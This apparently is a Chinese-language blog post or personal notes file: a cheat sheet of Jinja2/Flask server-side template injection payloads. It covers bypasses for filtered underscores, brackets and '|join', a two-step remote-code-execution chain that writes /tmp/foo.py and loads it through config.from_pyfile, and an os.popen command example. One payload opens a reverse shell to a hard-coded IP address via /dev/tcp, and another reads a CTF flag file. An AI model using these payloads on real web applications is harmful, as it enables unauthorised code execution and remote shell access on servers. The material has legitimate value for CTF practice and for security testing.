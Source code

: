 ```yaml
---
title: ssti
abbrlink: 28940
date: 2018-07-17 15:09:17
tags: python安全
---
```


## payload大全

####  bypass 各种字符串

1. 利用request.args

```
{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read
```

2. 利用字符串拼接

```python
{{request['__cla'+'ss__']['__m'+'ro__'][9]['__subcla'+'sses__']()[230]('''/bin/sh -c 
'l'''+'''s '''+chr(62)+'''& /dev/tcp/123.207.90.143/2333 0'''+chr(62)+'''&1 ''',shell=True)}}
```

3. 利用各种编码

   > "MTIzCg==".decode("base64")

4. 利用attr

```python
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
```

```
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
```

#### bypass "[" 和 "]"

1. 利用 attr

```
{{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
```

2. 进阶版 利用.getlist

```
{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
```

#### bypassing "|join"

1. 利用format

```
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```

#### FinalRce:

第一步:

```
http://localhost:5000/?exploit={%set a,b,c,d,e,f,g,h,i = request.__class__.__mro__%}{{i.__subclasses__().pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&file=/tmp/foo.py&write=w&payload=print+1337
```

第二步:

```
http://localhost:5000/?exploit={%set a,b,c,d,e,f,g,h,i = request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)|attr((request.args.usc*2,request.args.mro,request.args.usc*2)|join)%}{{(i|attr((request.args.usc*2,request.args.subc,request.args.usc*2)|join)()).pop(40)(request.args.file,request.args.write).write(request.args.payload)}}{{config.from_pyfile(request.args.file)}}&class=class&mro=mro&subc=subclasses&usc=_&file=/tmp/foo.py&write=w&payload=print+1337
```

#### Accessing parameters

In most examples we used request.args to access GET parameters, but there are other dictionaries that can be populated with custom values:

* GET: request.args
* Cookies: request.cookies
* Headers: request.headers
* Environment: request.environ
* Values: request.values

The following notations can be used to access attributes of an object:

* request.__class__
* request["__class__"]
* request|attr("__class__")

Elements of arrays can be accessed with:

* array[0]
* array.pop(0)

#### import

```python
{% import module %} – Allows you to import python modules.

Example: {% import subprocess %}

That’s all we need to craft an exploit code.

{% import os %}{{ os.popen("whoami").read() }}
```




